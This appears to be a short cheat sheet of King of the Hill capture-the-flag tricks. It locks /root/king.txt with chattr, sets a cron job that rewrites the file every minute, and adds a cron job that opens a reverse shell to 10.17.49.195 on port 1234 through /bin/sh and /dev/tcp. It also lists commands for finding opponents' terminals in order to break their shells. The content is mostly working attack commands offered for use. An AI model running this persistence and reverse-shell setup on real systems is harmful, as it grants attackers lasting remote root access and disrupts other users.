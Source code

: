 # KOTH-Tricks
### Make King.txt unwritable
chattr +ai /root/king.txt
set -o noclobber /root/king.txt
### Use Cronjobs automation
* * * * * echo "WildInsect" > /root/king.txt >/dev/null 2>&1
* * * * * /bin/sh -i >& /dev/tcp/10.17.49.195/1234 0>&1
## Braking opponent shell
### find pts of opponet
ps aux | grep pts
who
w

      

